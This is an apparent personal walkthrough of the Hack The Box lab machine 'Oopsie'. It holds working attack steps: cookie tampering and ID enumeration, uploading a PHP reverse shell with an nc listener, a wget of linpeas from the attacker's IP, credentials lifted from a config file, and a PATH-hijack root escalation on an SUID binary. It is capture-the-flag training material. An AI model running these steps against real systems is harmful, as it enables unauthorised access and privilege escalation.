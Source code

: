 # HTB - Oopsie

Oopsie is the second HTB machine in *Starting Point*. Like *Archetype*, it's labelled as *Very Easy*, let's see for ourselves:

Once again, we will start our attack with an Nmap scan with the following tags: `-sC` (to tell Nmap to use it's default scripts), `-sV` (to get more information about the services running on the different ports of the machine) and using `-oN` we save the scan in a file called `initial`. Our scan returns:

![Oopsie/nmap_initial.png](Oopsie/nmap_initial.png)

We can see ssh running on port `22` and http on `80`. We identify this box as a Linux machine.

We also run an aggressive scan on all ports by adding the following tags: `-A` (tells nmap to run an aggressive scan) and `-p-` (the scan runs on all ports).

![Oopsie/nmap_all_ports_aggressive.png](Oopsie/nmap_all_ports_aggressive.png)

As you can see, we do not have anymore information.

Okay so let's take a look at the website on port `80`. We do not see anything interesting on it's homepage and it doesn't look like it's linking to anywhere else. However, when we take a look at the source code, we find a subdirectory: `cdn-cgi/login` and if we go to there, we see that it is indeed a login page:

![Oopsie/cdn-cgi_login.png](Oopsie/cdn-cgi_login.png)

Before trying to enter credentials, let's run gobuster on the website to see if there is anything else besides `cdn-cgi/login`. We run gobuster with `-u` to specify the url and `-w` to specify the wordlist, we are going to use the `directory-list-2.3-medium.txt` from `dirbuster`. We get the following output after some time:

![Oopsie/gobuster.png](Oopsie/gobuster.png)

While gobuster was running, I tried to look for interesting information `cdn-cgi/login`'s sourcepage but nothing jumped out so I went back to the homepage and saw that it mentionned MegaCorp which is the same company present in `Archetype` so I decided to try using some of the credentials that we found on that box. `admin:MEGACORP_4dm1n!!` worked and I was able to login. I got redirected to `cdn-cgi/login/admin.php`:

![Oopsie/cdn-cgi_admin.png](Oopsie/cdn-cgi_admin.png)

    - `cdn-cgi/login/admin.php?content=accounts&id=1`:

        Account subpage:

        ![Oopsie/cdn-cgi_admin_account.png](Oopsie/cdn-cgi_admin_account.png)

    - `cdn-cgi/login/admin.php?content=branding&brandId=10`:

        Branding subpage:

        ![Oopsie/cdn-cgi_admin_branding.png](Oopsie/cdn-cgi_admin_branding.png)

    - `cdn-cgi/login/admin.php?content=clients&orgId=1`:

        Client subpage:

        ![Oopsie/cdn-cgi_admin_client.png](Oopsie/cdn-cgi_admin_client.png)

    - `cdn-cgi/login/admin.php?content=uploads`:

        Upload subpage:

        ![Oopsie/cdn-cgi_admin_upload.png](Oopsie/cdn-cgi_admin_upload.png)

    -> review: it seems to be a database form where we can pick and choose information to get, it seems that we need to find a way to access upload so we can upload a reverse shell

    - Branding: we also get info for an id of `1`

    - Requests in the Upload Page:

        ![Oopsie/cdn-cgi_admin_upload_request.png](Oopsie/cdn-cgi_admin_upload_request.png)

        Cookie info: `role:"admin";user:"34322"` 

        -> tried modifying `role` value to `superadmin` and `super admin` but didn't work maybe it's because the user is staying the same so we need to find the user id of the superadmin

        -> tried changing the `user` value to `0` and it redirected us to the login page

        ->if we change the url `id` to `34322` in the Accounts page bbut doesn't give us a value

        ->we can try using burp to find the correct id number:

        - Intruder (`Sniper`) on `id` using payload number `1-63`:

            ![Oopsie/burp_top63.png](Oopsie/burp_top63.png)

            -> using ID `30`:

            ![Oopsie/accounts_superadmin.png](Oopsie/accounts_super_admin.png)

            Found userID `86575`

- Uploads directory:

    - Using `user:86575`:

        ![Oopsie/uploads.png](Oopsie/upload.png)

    - On our attack machine:

        `cp /usr/share/webshells/php/php-reverse-shell.php ./`

        Modify IP address and port

        `nc -lnvp 1234`

    - On website:

        We upload the file, however we need to find the location of the uploads

        If we look at the gobuster output from before we see the `uploads` directory. Run `uploads/php.php` and get a revshell 

        ![Oopsie/revshell.png](Oopsie/revshell.png)

- Privesc:

    - `home/robert/user.txt`

    - Get a tty shell: `python3 -c 'import pty; pty.spawn("/bin/sh")'`

    -* Then `Ctrl + Z` -> `stty raw -echo` -> `fg`* -> doesn't work actually, taken from [https://medium.com/bug-bounty-hunting/beginner-tips-to-own-boxes-at-hackthebox-9ae3fec92a96](https://medium.com/bug-bounty-hunting/beginner-tips-to-own-boxes-at-hackthebox-9ae3fec92a96)

    -> `robert` and `www-data` has a password so can't move to the `robert` user or use `sudo -l`

    - Get linpeas:

        - Host a webserver with linpeas: `sudo python3 -m http.server 80`

        - On the target: `wget http://10.10.14.217/linpeas.sh`

        -> doesn't work, permission denied

    -> we will need to do some manual enumeration to find privesc lead

    - We take a look at `var/www/html/cdn-cgi/login/db.php`:

        ![Oopsie/db_php.png](Oopsie/db_php.png)

        -> `robert:M3g4C0rpUs3r!`
            
        -> database name: `garage`

    - We login with ssh as `robert`, no need for the reverse shell anymore ;)

    - Trying `sudo -l` -> robert can't run sudo on the machine

    - `cat /etc/passwd`:

        ![Oopsie/etc_passwd.png](Oopsie/etc_passwd.png)

        -> mysql user but has `/bin/false`: `a binary that immediately exits, returning false, when it's called, so when someone who has false as shell logs in, they're immediately logged out when false exits.` -> they do not have access to a shell tho

    - `find / -type f -perm /u=s 2>/dev/null`: find SUIDs

        ![Oopsie/suid_find.png](Oopsie/suid_find.png)

        -> `bugtracker` looks interesting
    
    - Bugtracker:

        - `file /usr/bin/bugtracker`:

            ![Oospie/filetype_bugtracker/png](Oopsie/filetype_bugtracker.png)

            -> we see gibberish if we cat the file

        - `/usr/bin/bugtracker`:

            ![Oopsie/bugtracker.png](Oopsie/bugtracker.png)

        - `strings /usr/bin/bugtracker`:

            ![Oopsie/strings_bugtracker.png](Oopsie/strings_bugtracker.png)

            -> runs a cat in it's relative path instead of its absolute so we can modify the path to point to another cat file that we created and hijacked to run `/bin/bash` 

        - Privesc steps:

            ```bash
            export PATH=~/:$PATH
            cd ~/
            echo '/bin/bash' > cat 
            chmod +x cat
            /usr/bin/bugtracker
            ```

            -> normally we would do it in `/tmp` but since there is already a file there we use robert's home directory: `~/`

            -> after doing this we get root :), note: we need to changethe `PATH` bac to its previous state, to be able to run  `cat` correctly or just to `/bin/` or run directly `/bin/cat`

- Filezilla:

    ![Oopsie/filezilla.png](Oopsie/filezilla.png)

    -> creds: `ftpuser:mc@F1l3ZilL4`


      

